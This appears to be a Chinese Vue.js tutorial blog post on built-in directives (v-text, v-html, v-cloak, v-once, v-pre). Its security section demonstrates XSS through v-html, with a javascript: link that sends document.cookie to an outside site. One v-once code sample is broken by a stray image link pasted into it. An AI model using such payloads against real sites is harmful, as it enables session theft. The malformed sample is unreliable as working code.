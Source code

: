 ```yaml
---
author: "li_mingxie"
title: "【Vue笔记】Vue入门简介_内置指令(14)"
date: 2022-06-12T23:55:49+08:00
tags: [
    "vue",
]
categories: [
    "vue",
]
---
```


这一篇整理了内置指令相关的内容。  <!--more-->

#### 内置指令

​​**v-bind**​​​：单向绑定解析表达式，可简写为 ​​:xxx​​​​
**v-model**​​：双向数据绑定
​​**v-for​​**：遍历数组/对象/字符串
​​**v-on​​**：绑定事件监听,可简写为​​@​​​​
**v-if**​​：条件渲染（动态控制节点是否存在)
​​**v-else​​**：条件渲染（动态控制节点是否存在)
​​**v-show​​**：条件渲染(动态控制节点是否展示)

#### v-text

1、作用：向其所在的节点中渲染文本内容
2、与插值语法的区别:​​​v-text​​​会替换掉节点中的内容，​​{{xx}}​​则不会

```html
<div id="app">
    <h2>{{msg}}</h2>
    <h2 v-text="msg"></h2>
</div>
```

```js
<script type="text/javascript">
    Vue.config.productionTip = false

    //创建vue实例
    new Vue({
        el: "#app",
        data: {
            msg:"Hello world"
        }
    })
</script>
```

#### v-html

1.作用：向指定节点中渲染包含html结构的内容
2.与插值语法的区别：
(1).v-html 会替换掉节点中所有的内容，{{xx}}则不会
(2).v-html 可以识别 html 结构
3.严重注意：v-html 有安全性问题!!!
(1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击
(2).一定要在可信的内容上使用 v-html，永不要用在用户提交的内容上!

```html
<div id="app">
    <div>{{msg}}</div>
    <div v-text="msg"></div>
    <div v-html="msg"></div>
</div>
```

```js
<script type="text/javascript">
    Vue.config.productionTip = false

    //创建vue实例
    new Vue({
        el: "#app",
        data: {
            msg:"<h3>Hello world</h3>"
        }
    })
</script>
```

#### 安全性问题

```html
<div id="app">
    <div>{{msg}}</div>
    <div v-text="msg"></div>
    <div v-html="msg"></div>
    <div v-html="msg2"></div>
    <div v-html="msg3"></div>
</div>
```

```js
<script type="text/javascript">
    Vue.config.productionTip = false

    //创建vue实例
    new Vue({
        el: "#app",
        data: {
            msg:"<h3>Hello world</h3>",
            msg2:"<a href=javascript:alert(1)>资源，速来</a>",
            msg3:'<a href=javascript:location.href="https://www.baidu.com?"+document.cookie>资源，速来</a>'
        }
    })
</script>
```

HttpOnly 是包含在 http 返回头Set-Cookie 里面的一个附加的 flag，  
所以它是后端服务器对 cookie设置的一个附加的属性，在生成 cookie 时使用 HttpOnly 标志有助于减轻客户端脚本访问受保护 cookie 的风险

#### v-cloak

1.本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉 ​​​v-cloak​​​属性
2.使用 css 配合 ​​​v-cloak​​​ 可以解决网速慢时页面展示出​​{{xxx}}​​的问题

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title></title>
    <style>
        /*选中标签中包含 v-cloak*/
        [v-cloak]{
            display: none;
        }
    </style>
</head>
<body>
<div id="app">
    <div v-cloak>{{msg}}</div>
    <!--如果引入了外部js，而且返回时间长，那么页面会闪现-->
    <script type="text/javascript" src="../js/vue.js"></script>
</div>
<!--这里标签内容只有在上边js加载完后才执行-->
<script type="text/javascript">
    Vue.config.productionTip = false

    //创建vue实例
    new Vue({
        el: "#app",
        data: {
            msg:"Hello world"
        }
    })
</script>
</body>
</html>
```

#### v-once

1.​​​v-once​​​所在节点在初次动态渲染后，就视为静态内容了
2.以后数据的改变不会引起​​​v-once​​所在结构的更新，可以用于优化性能

```html
<div id="app">
    <h2 v-once>n的初始值：{{n}}</h2>
    <h2>n的当前值：{{n}}</h2>
    <button @click="n++">点我n+1</button>
</div>
```

```js
<script type="text/javascript">
    Vue.config.productionTip = false

    //创建vue实例
    new Vue({
        el: "#app",
        data: {
            n:1![在这里插入图片描述](https://img-blog.csdnimg.cn/8b0057d61e9b43848788b3c01f712058.gif#pic_center)

        }
    })
</script>
```

#### v-pre

1.跳过其所在节点的编译过程
2.可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译

```html
<div id="app">
    <h2 v-pre>Vue其实很简单</h2>
    <h2 v-pre>n的当前值：{{n}}</h2>
    <h2>n的当前值：{{n}}</h2>
    <button @click="n++">点我n+1</button>
</div>
```

```js
<script type="text/javascript">
    Vue.config.productionTip = false

    //创建vue实例
    new Vue({
        el: "#app",
        data: {
            n:1
        }
    })
</script>
```

----------------------------------------------
欢迎大家的意见和交流

`email: li_mingxie@163.com`
